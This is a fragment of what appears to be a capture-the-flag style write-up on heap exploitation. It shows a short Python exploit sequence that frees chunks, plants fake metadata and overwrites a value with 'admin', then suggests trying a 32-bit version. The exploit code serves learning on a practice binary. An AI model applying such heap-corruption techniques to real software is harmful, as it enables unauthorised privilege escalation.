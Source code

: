 ```python
delete(1)
delete(0)

create(p64(fake_metadata))
create('junk1')
create('junk2')

create('\x00' * 8 + 'admin\x00')
complete()
```

## 32-bit

Mixing it up a bit - you can try the _32-bit_ version yourself. Same principle, offsets a bit different and stuff. I'll upload the binary when I can, but just compile it as 32-bit and try it yourself :)
